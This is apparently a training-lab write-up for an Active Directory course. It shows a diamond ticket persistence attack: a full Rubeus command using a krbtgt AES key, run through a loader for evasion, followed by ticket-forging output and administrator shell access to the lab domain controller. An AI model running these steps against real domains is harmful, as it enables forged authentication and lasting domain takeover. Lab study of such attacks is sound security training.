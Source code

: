 # Learning Objective 10 (Diamond Ticket Attack for Persistence)

## Tasks

1. **Use domain admin privileges obtained earlier (see *Learning Objective 08*) to execute the diamond ticket attack**

---

## Solution

1. **Use domain admin privileges obtained earlier (see *Learning Objective 08*) to execute the diamond ticket attack**

We can simply use the following Rubeus command to execute the attack.
Note that the command needs to be run **from an elevated shell ('run as administrator')**. We take the usual OPSEC care of using Loader.

![Run as administrator](./assets/screenshots/learning_objectives_run_as_administrator.png)

![dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`whoami /groups`:
```
GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes

========================================== ================ ============================================= ===============================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users               Alias            S-1-5-32-555                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators👥                   Alias            S-1-5-32-544                                  Mandatory group, Enabled by default, Enabled group, Group owner✅
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\REMOTE INTERACTIVE LOGON      Well-known group S-1-5-14                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0                                       Mandatory group, Enabled by default, Enabled group
dcorp\RDPUsers                             Group            S-1-5-21-719815819-3726368948-3917688648-1123 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                      Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
```

In order to perform the diamond ticket attack we need to use the `krbtgt` aes256 key.

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt`:
```
[SNIP]

[*] Action: Diamond Ticket📌

[*] Showing process : True
[*] Username        : MZBPYDM3
[*] Domain          : LYOCO7MX
[*] Password        : B89I5HTT
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 3252
[+] LUID            : 0x626d5a

[*] No target SPN specified, attempting to build 'cifs📌/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/dcorp-dc.dollarcorp.moneycorp.local'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: 5Gs8379n58wpVLIc13YhnzmmPL9MOAbONZb0NbtgacY=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

[SNIP]

[*] Decrypting TGT
[*] Retreiving PAC
[*] Modifying PAC
[*] Signing PAC
[*] Encrypting Modified TGT

[*] base64(ticket.kirbi):

[SNIP]

[*] Target LUID: 0x626d5a
[+] Ticket successfully imported!🎟️
```

Access the DC using winrs from the new spawned process!

![New spawned terminal process](./assets/screenshots/learning_objective_10_new_spawned_terminal_process.png)

![dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`whoami /groups`:
```
ERROR: Unable to get group membership information.
```
❌

`klist`:
```
Current LogonId is 0:0x626d5a

Cached Tickets: (1)

#0>     Client: administrator🎭 @ DOLLARCORP.MONEYCORP.LOCAL🏛️
        Server: krbtgt📌/DOLLARCORP.MONEYCORP.LOCAL @ DOLLARCORP.MONEYCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize
        Start Time: 2/13/2025 7:09:52 (local)
        End Time:   2/13/2025 17:09:43 (local)
        Renew Time: 2/20/2025 7:09:43 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

`winrs -r:dcorp-dc cmd`:
```
Microsoft Windows [Version 10.0.20348.2762]
(c) Microsoft Corporation. All rights reserved.

C:\Users\Administrator>
```
🚀

![dcorp-dc | administrator](https://custom-icon-badges.demolab.com/badge/dcorp--dc-administrator-64b5f6?logo=windows11&logoColor=white)

`whoami`:
```
dcorp\administrator
```

`hostname`:
```
dcorp-dc
```
🚩

---
---
